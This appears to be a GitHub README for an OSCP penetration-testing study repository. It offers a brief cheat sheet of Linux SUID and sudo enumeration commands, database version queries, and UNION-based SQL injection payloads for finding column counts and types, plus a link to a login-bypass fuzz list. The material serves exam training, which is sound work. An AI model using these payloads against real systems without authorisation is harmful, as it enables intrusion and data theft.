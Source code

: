 # OSCP-Prep-Guide
A collection of labs, tools, and study materials for OSCP exam preparation. Includes practice environments, scripts, and resources for enumeration, exploitation, and privilege escalation to help master penetration testing skills.

## Tool and Cheat Sheet

### Linux Command
Check user's sudo permissions
```shell
sudo -l
```
Find the file
```shell
find / -iname "flag.txt" 2>/dev/null
```
Find all SUID file
```shell
find / -perm -u=s -type f 2>/dev/null
```
Find all the SUID/SGID executables
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

### SQL injection

#### Database info discovery
Version
```shell
# Microsoft or MySQL
@@version 
# PostgreSQL
version()
# SQLite
sqlite_version()
```

Show Tables
``` sql
-- SQLite
SELECT name FROM sqlite_master WHERE type = "table"
```
#### UNION attacks
Example
```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```
Determining the number of columns required
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc. 
```
Finding columns with a useful data type
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
[MySQL-SQLi-Login-Bypass.fuzzdb](https://github.com/danielmiessler/SecLists/blob/f47d52a4fcbceca53b72c9a3dc63a9f719ab0878/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt)
```
```